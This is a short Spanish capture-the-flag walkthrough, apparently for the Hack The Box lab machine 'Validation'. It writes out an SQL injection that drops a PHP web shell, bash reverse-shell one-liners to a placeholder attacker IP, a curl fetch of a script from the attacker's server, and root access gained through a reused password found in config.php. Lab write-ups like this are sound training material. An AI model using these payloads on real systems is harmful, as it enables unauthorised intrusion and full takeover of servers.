

Validation
- Realizo un escaneo de puertos
- Encuentro el servicio SSH y el servicio HTTP
- Entro en la página web
- Veo que hay un tb en el que se pueden introducir datos y un un botón para realizar un solicitud POST (probablemente)
- Compruebo si este tb lo puedo usar para hacer SQLI o Code Injection
- Para realizar este tipo de pruebas me gusta usar Burpsuite para ver que me devuelve la página web
- Se almacenan los datos que introducimos en el tb
- Uso una sqli para spawnear una shell de cmd (injección sql que crea un php web shell a través de la query) ' union select "<?php SYSTEM($_GET['cmd']) ?>" INTO OUTFILE '/var/www/html/shell.php'-- -
- Ahora me toca obtener persistencia
- Para ello le enviaré un reverse shell
- Creo el reverse shell echo "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1">reverse.sh
- Monto el server para coger el archivo python3 -m http.server 4321
- Hago el curl para coger el archivo 10.10.11.116/shell.php?cmd=curl+<IP>:<PORT>/reverse.sh > reverse.sh
- Para ver que se descargó el archivo hacemos un ls 10.10.11.116/shell.php?cmd=ls
- No me funciona
- A través de la consola cmd spwaneao una reverse shell /shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/<IP>/<PORT>+0>%261'
- Encuentro la flag de user cat /home/htb/user.txt
- Hago sudo-l pero no encuentro nada
- Hay un archivo config.php
- Le realizo un cat y encuentro una pass

- Pruebo a ver si es la contraseña de root
- Funciona
- Encuentro la flag root.txt